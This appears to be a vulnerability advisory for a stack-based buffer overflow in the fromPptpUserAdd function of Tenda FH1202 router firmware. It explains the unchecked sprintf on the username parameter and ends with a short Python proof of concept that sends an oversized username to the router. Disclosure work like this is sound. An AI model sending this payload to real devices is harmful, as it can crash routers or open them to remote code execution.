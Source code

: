 # Tenda FH1202 fromPptpUserAdd
### Overview
vendor: Tenda
product: FH1202
version: V1.2.0.14(408)
type: Stack Overflow
### Vulnerability Description
Tenda FH1202 V1.2.0.14(408) were discovered to contain a stack overflow via the username parameter in the fromPptpUserAdd function.
### Vulnerability details
In function fromPptpUserAdd line 24, it reads in a user-provided parameter `username`, and the variable is passed to the `sprintf` function without any length check, which may overflow the stack-based buffer `s_4`. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.

![](images/10.png)
![](images/11.png)

### POC
```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/PPTPDClient"

data = {
    "username": "a" * 4000,
    "opttype": "2",
    "flag": "1"
}

response = requests.post(url, data=data)
print(response.text)
```

![](images/12.png)
